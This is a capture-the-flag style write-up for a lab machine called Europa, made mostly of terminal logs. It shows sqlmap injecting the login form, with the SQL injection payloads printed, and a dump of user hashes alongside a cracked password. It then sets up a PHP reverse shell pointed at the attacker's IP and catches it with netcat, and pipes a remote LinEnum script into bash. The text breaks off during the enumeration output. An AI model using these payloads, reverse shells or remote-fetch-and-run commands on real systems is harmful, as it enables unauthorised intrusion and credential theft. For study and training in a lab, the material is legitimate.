

#### Europa

- [Attacker Info]()
- [Enumeration]()
- [SQL Injection]()
- [Regex Exploitation]()
- [Privilege Escalation]()

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 5375  bytes 6763234 (6.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2941  bytes 275385 (268.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 fe80::34d9:6525:988e:8b7  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 9  bytes 792 (792.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13  bytes 732 (732.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Enumeration


```
http://10.10.10.22
```


```
https://10.10.10.22
```


```sh
root@kali:~# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali

10.10.10.22     admin-portal.europacorp.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
root@kali:~#
```


Disable ``burp`` and see the certificate for the email address


###### SQL Injection


```sh
root@kali:~/europa# cat eur.req
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/login.php
Cookie: PHPSESSID=a4lci20phpb3ben3jfn77m1td4
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

email=admin%40europacorp.htb&password=password

root@kali:~/europa#
```

```sh
root@kali:~/europa# sqlmap -r eur.req --dbms mysql -p email --force-ssl
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:12:56

[14:12:56] [INFO] parsing HTTP request from 'eur.req'
[14:12:56] [INFO] testing connection to the target URL

redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n]
[14:13:05] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[14:13:06] [INFO] testing if the target URL content is stable
[14:13:08] [INFO] heuristic (basic) test shows that POST parameter 'email' might be injectable (possible DBMS: 'MySQL')
[14:13:09] [INFO] heuristic (XSS) test shows that POST parameter 'email' might be vulnerable to cross-site scripting (XSS) attacks
[14:13:09] [INFO] testing for SQL injection on POST parameter 'email'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[14:13:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:13:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:14:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:14:28] [WARNING] reflective value(s) found and filtering out
[14:15:50] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)'
[14:16:51] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[14:16:58] [INFO] POST parameter 'email' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable
[14:16:58] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:16:59] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[14:16:59] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[14:17:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[14:17:01] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[14:17:01] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[14:17:02] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:17:02] [INFO] POST parameter 'email' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[14:17:02] [INFO] testing 'MySQL inline queries'
[14:17:04] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[14:17:04] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[14:17:05] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[14:17:05] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[14:17:06] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[14:17:07] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[14:17:07] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[14:17:22] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
[14:17:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:17:22] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[14:17:22] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:17:24] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:17:28] [INFO] target URL appears to have 5 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[14:19:18] [INFO] testing 'MySQL UNION query (70) - 21 to 40 columns'
[14:19:30] [INFO] testing 'MySQL UNION query (70) - 41 to 60 columns'
[14:19:42] [INFO] testing 'MySQL UNION query (70) - 61 to 80 columns'
[14:19:54] [INFO] testing 'MySQL UNION query (70) - 81 to 100 columns'
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 359 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=admin@europacorp.htb' RLIKE (SELECT (CASE WHEN (1970=1970) THEN 0x61646d696e406575726f7061636f72702e687462 ELSE 0x28 END))-- jjDl&password=password

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=admin@europacorp.htb' AND (SELECT 6906 FROM(SELECT COUNT(*),CONCAT(0x71717a7671,(SELECT (ELT(6906=6906,1))),0x7162787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- PzMn&password=password

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: email=admin@europacorp.htb' AND SLEEP(5)-- Obaz&password=password
---
[14:20:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[14:20:38] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 14:20:38

root@kali:~/europa#
```

```sh
root@kali:~/europa# sqlmap -r eur.req --dbms mysql -p email --force-ssl --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:27:58

[14:27:58] [INFO] parsing HTTP request from 'eur.req'
[14:27:58] [INFO] testing connection to the target URL
sqlmap got a 302 redirect to 'https://admin-portal.europacorp.htb/dashboard.php'. Do you want to follow? [Y/n]
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=admin@europacorp.htb' RLIKE (SELECT (CASE WHEN (1970=1970) THEN 0x61646d696e406575726f7061636f72702e687462 ELSE 0x28 END))-- jjDl&password=password

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=admin@europacorp.htb' AND (SELECT 6906 FROM(SELECT COUNT(*),CONCAT(0x71717a7671,(SELECT (ELT(6906=6906,1))),0x7162787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- PzMn&password=password

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: email=admin@europacorp.htb' AND SLEEP(5)-- Obaz&password=password
---
[14:28:02] [INFO] testing MySQL
[14:28:05] [INFO] confirming MySQL
[14:28:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[14:28:07] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:28:07] [INFO] fetching current database
[14:28:07] [INFO] retrieved: admin
[14:28:07] [INFO] fetching tables for database: 'admin'
[14:28:08] [INFO] used SQL query returns 1 entries
[14:28:08] [INFO] retrieved: users
[14:28:08] [INFO] fetching columns for table 'users' in database 'admin'
[14:28:09] [INFO] used SQL query returns 5 entries
[14:28:10] [INFO] retrieved: id
[14:28:10] [INFO] retrieved: int(11)
[14:28:11] [INFO] retrieved: username
[14:28:11] [INFO] retrieved: varchar(255)
[14:28:12] [INFO] retrieved: email
[14:28:13] [INFO] retrieved: varchar(255)
[14:28:13] [INFO] retrieved: password
[14:28:14] [INFO] retrieved: varchar(255)
[14:28:14] [INFO] retrieved: active
[14:28:15] [INFO] retrieved: tinyint(1)
[14:28:15] [INFO] fetching entries for table 'users' in database 'admin'
[14:28:16] [INFO] used SQL query returns 2 entries
[14:28:16] [INFO] retrieved: 1
[14:28:17] [INFO] retrieved: admin@europacorp.htb
[14:28:17] [INFO] retrieved: 1
[14:28:18] [INFO] retrieved: 2b6d315337f18617ba18922c0b9597ff
[14:28:19] [INFO] retrieved: administrator
[14:28:19] [INFO] retrieved: 1
[14:28:20] [INFO] retrieved: john@europacorp.htb
[14:28:20] [INFO] retrieved: 2
[14:28:21] [INFO] retrieved: 2b6d315337f18617ba18922c0b9597ff
[14:28:22] [INFO] retrieved: john
[14:28:22] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to crack them via a dictionary-based attack? [Y/n/q]
[14:28:30] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[14:28:35] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[14:28:37] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[14:28:37] [INFO] starting 4 processes
[14:28:47] [WARNING] no clear password(s) found
Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+

[14:28:47] [INFO] table 'admin.users' dumped to CSV file '/root/.sqlmap/output/admin-portal.europacorp.htb/dump/admin/users.csv'
[14:28:47] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 14:28:47

root@kali:~/europa#
```


```
2b6d315337f18617ba18922c0b9597ff:SuperSecretPassword!
```

###### Regex Exploitation





[``The unexpected dangers of preg_replace()``](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace)


```sh
root@kali:~/europa# wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
root@kali:~/europa# tar xvzf php-reverse-shell-1.0.tar.gz
root@kali:~/europa# cd php-reverse-shell-1.0/
root@kali:~/europa/php-reverse-shell-1.0# nano php-reverse-shell.php
root@kali:~/europa/php-reverse-shell-1.0# cp php-reverse-shell.php ../
```

```
$ip = '10.10.14.5';  // CHANGE THIS
$port = 8001;       // CHANGE THIS
```


```sh
root@kali:~/europa/php-reverse-shell-1.0# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.22 - - [24/Jan/2018 15:27:51] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

```sh
root@kali:~/europa# nc -nlvp 8001
listening on [any] 8001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.22] 58244
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:28:07 up 2 days, 21:51,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@europa:/$
```

###### Privilege Escalation

```sh
www-data@europa:/$ curl http://10.10.14.5:84/LinEnum.sh | bash
curl http://10.10.14.5:84/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  48196      0 --:--:-- --:--:-- --:--:-- 48260

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

Debug Info
thorough tests = disabled


Scan started at:
Wed Jan 24 23:16:08 EET 2018


### SYSTEM ##############################################
Kernel information:
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


Kernel information (continued):
Linux version 4.4.0-81-generic (buildd@lgw01-02) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017


Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


Hostname:
europa


### USER/GROUP ##########################################
Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Sun Dec 24 18:18:51 +0200 2017
john             pts/0    10.10.14.141     Thu Jul 27 01:32:29 +0300 2017


Who else is logged on:
 23:16:08 up 7 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(mysql) gid=111(mysql) groups=111(mysql)
uid=108(messagebus) gid=112(messagebus) groups=112(messagebus)
uid=109(uuidd) gid=113(uuidd) groups=113(uuidd)
uid=110(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=111(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)

Seems we met some admin users!!!

uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:John Makris,,,:/home/john:/bin/bash


Super user account(s):
root


Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root root 4.0K Apr 18  2017 .
drwxr-xr-x 23 root root 4.0K Jun 23  2017 ..
drwxr-xr-x  4 john john 4.0K Jun 23  2017 john


### ENVIRONMENTAL #######################################
 Environment information:
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOG_DIR=/var/log/apache2
PWD=/
LANG=C
APACHE_RUN_GROUP=www-data
SHLVL=2
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
_=/usr/bin/env


Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


Current umask value:
0000
u=rwx,g=rwx,o=rwx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  765 Jun 23  2017 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Jun 23  2017 .
drwxr-xr-x 92 root root 4096 Jun 23  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  712 Mar 15  2017 php
-rw-r--r--  1 root root  190 Apr 18  2017 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 Jun 23  2017 .
drwxr-xr-x 92 root root 4096 Jun 23  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root  539 Apr  6  2016 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jan 17  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 27  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 13  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Apr 18  2017 .
drwxr-xr-x 92 root root 4096 Jun 23  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Apr 18  2017 .
drwxr-xr-x 92 root root 4096 Jun 23  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Apr 18  2017 .
drwxr-xr-x 92 root root 4096 Jun 23  2017 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs


### NETWORKING  ##########################################
Network & IP info:
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:3c:d6
          inet addr:10.10.10.22  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:3cd6/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:3cd6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1179 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1009 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:175385 (175.3 KB)  TX bytes:106326 (106.3 KB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:11840 (11.8 KB)  TX bytes:11840 (11.8 KB)


ARP history:
? (10.10.10.2) at 00:50:56:aa:d8:f7 [ether] on ens160


Nameserver(s):
nameserver 10.10.10.2


Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens160


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0   5309 10.10.10.22:51430       10.10.14.5:8003         ESTABLISHED 1602/php
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::443                  :::*                    LISTEN      -
tcp6      86      0 10.10.10.22:443         10.10.14.5:60666        CLOSE_WAIT  -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.22:55371       10.10.10.2:53           ESTABLISHED -


### SERVICES #############################################
Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.5  0.6 121900  6100 ?        Ss   23:08   0:02 /sbin/init
root         2  0.0  0.0      0     0 ?        S    23:08   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    23:08   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   23:08   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    23:08   0:00 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    23:08   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    23:08   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    23:08   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    23:08   0:00 [watchdog/1]
root        12  0.0  0.0      0     0 ?        S    23:08   0:00 [migration/1]
root        13  0.0  0.0      0     0 ?        S    23:08   0:00 [ksoftirqd/1]
root        14  0.0  0.0      0     0 ?        S    23:08   0:00 [kworker/1:0]
root        15  0.0  0.0      0     0 ?        S<   23:08   0:00 [kworker/1:0H]
root        16  0.0  0.0      0     0 ?        S    23:08   0:00 [kdevtmpfs]
root        17  0.0  0.0      0     0 ?        S<   23:08   0:00 [netns]
root        18  0.0  0.0      0     0 ?        S<   23:08   0:00 [perf]
root        19  0.0  0.0      0     0 ?        S    23:08   0:00 [khungtaskd]
root        20  0.0  0.0      0     0 ?        S<   23:08   0:00 [writeback]
root        21  0.0  0.0      0     0 ?        SN   23:08   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   23:08   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        S<   23:08   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        S<   23:08   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        S<   23:08   0:00 [bioset]
root        26  0.0  0.0      0     0 ?        S<   23:08   0:00 [kblockd]
root        27  0.0  0.0      0     0 ?        S<   23:08   0:00 [ata_sff]
root        28  0.0  0.0      0     0 ?        S<   23:08   0:00 [md]
root        29  0.0  0.0      0     0 ?        S<   23:08   0:00 [devfreq_wq]
root        34  0.0  0.0      0     0 ?        S    23:08   0:00 [kswapd0]
root        35  0.0  0.0      0     0 ?        S<   23:08   0:00 [vmstat]
root        36  0.0  0.0      0     0 ?        S    23:08   0:00 [fsnotify_mark]
root        37  0.0  0.0      0     0 ?        S    23:08   0:00 [ecryptfs-kthrea]
